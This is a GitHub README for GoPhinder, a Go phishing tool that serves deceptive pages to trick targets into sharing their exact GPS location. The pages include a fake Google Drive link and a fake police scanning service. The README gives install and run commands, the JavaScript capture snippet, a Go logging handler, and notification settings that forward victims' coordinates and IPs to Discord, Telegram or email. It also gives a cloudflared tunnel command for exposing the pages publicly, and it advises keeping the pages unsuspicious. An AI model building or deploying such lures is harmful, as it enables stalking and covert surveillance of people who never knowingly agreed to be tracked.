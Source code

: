 <div align="center">
  <img src="./assets/logo.png" alt="GoPhinder" />
  <h1><strong>GoPhinder</strong></h1>
  <p>📍 Social Engineering Accurate Tracking of Devices 📍</p>
</div>

Inspired by [seeker](https://github.com/thewhiteh4t/seeker), this concept is much like phishing for credentials, but instead for precise GPS details. With the ease of capturing gps details via javascript, crafting an enticing website for a given target to grant location based permissions is one of many social engineering strategies.

# Usage
```bash
./gophinder -h
Usage of ./gophinder:
  -config string
    	Path to JSON config file for notifications (default "config.json")
  -h	Show usage
  -p int
    	Web Server port (default 8080)
  -t string
    	Specify a path to a template file (default "templates/index.html")
```

## Prerequisite
| Prerequisite | Version |
|--------------|---------|
| Go           |  <=1.22 |

## Install
```bash
git clone https://github.com/CharlesTheGreat77/GoPhinder
cd GoPhinder
go mod init gophinder
go mod tidy
go build -o gophinder run.go
./gophinder -h
```

### Example
```bash
./gophinder -p 8000 -t templates/index.html | tee locations.txt

# sends location and ip logs to webhooks, email, telegram
./gophinder -t templates/index.html -config bots.json
```

## Output
```bash
[+] Server running on http://localhost:8080
┌──[Access Log]────────────[2025-05-01 22:56:55]
│ [+] Language     : en-US,en;q=0.9
│ [+] Referer      : http://localhost:8080/
│ [+] IP Address   : ::1
│ [+] User-Agent   : Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.5 Safari/605.1.15
└─────────────────────────────────────────────────────

┌──[Location Log]────────────[2025-05-01 23:04:24]
│ [+] Longitude    : xxxx
│ [+] Google Maps  : https://maps.google.com/?q=xxxx,xxxx
│ [+] IP Address   : ::1
│ [+] Latitude     : xxxx
└───────────────────────────────────────────────────────
```

## Additional output
Additional logging/output can be attained and pushed to stdout with ease.
An approach can look like such:
```golang
func HandleTrack(templatePath string, notifier notifier.Notifier) http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		var data struct { // gets data form json response form webpage
      			Lat float64 `json:"lat"`
      			Lon float64 `json:"lon"`
		}
		if err := json.NewDecoder(r.Body).Decode(&data); err != nil {
			log.Printf("JSON decode error: %v", err)
			http.Error(w, "Bad Request", http.StatusBadRequest)
			return
		}

		ip := utils.GetIP(r) // get the ip
		fields := map[string]string{ // create map
			"IP Address":  ip, // can be anything
			"Latitude":    fmt.Sprintf("%.6f", data.Lat),
			"Longitude":   fmt.Sprintf("%.6f", data.Lon),
			"Google Maps": fmt.Sprintf("https://maps.google.com/?q=%.6f,%.6f", data.Lat, data.Lon),
		}
		if notifier != nil {
			// send to external webhooks etc.
			go notifier.Notify("Location Log", fields)
		}
		logging.LogBlock("Location Log", fields) // push to the log
		w.WriteHeader(http.StatusOK) // push 200 back to client
	}
}
```

# Templates
Default templates can be found in the *templates* directory
* Fake Google Drive Access Link
* Fake Emergency/Police Local Scanning Service
* Fake Private Event Finder

By default, the templates only gather location based information as seen below
```javascript
navigator.geolocation.getCurrentPosition(function(position) { // get exact location
    fetch(window.location.origin + "/track", { // send to backend
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({
            lat: position.coords.latitude,
            lon: position.coords.longitude
        })
    });
});
```

You can **add/customize** templates as needed, throw in a button click to execute, or do what you please!
The idea is to not have something so suspicious in terms of the context within the page.


## Notifications
To get automatic updates elsewhere, you can specify your *discord webhook, telegram token, and email credentials*. This can be done by editing the **config.json** file.
```json
{
  "discord": {
    "enabled": false,
    "webhook_url": "https://discord.com/api/webhooks/..."
  },
  "telegram": {
    "enabled": false,
    "bot_token": "123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11",
    "chat_id": "987654321"
  },
  "email": {
    "enabled": false,
    "smtp_host": "smtp.gmail.com",
    "smtp_port": 587,
    "username": "your@email.com",
    "password": "yourpassword",
    "to": "recipient@email.com"
  }
}
```

By **default**, the notification methods are set to false, but one can enable as many as needed.

## Screenshot
<img src="./assets/example.png" alt="GoPhinder" />

# tunneling
Tunneling like the classic way goes can be as followed:
```bash
# cloudflared must be installed prior ideally
cloudflared tunnel --url http://localhost:8080
```

# Contributions
Contributions are very welcomed for additional functionality, or templates!# GoPhinder
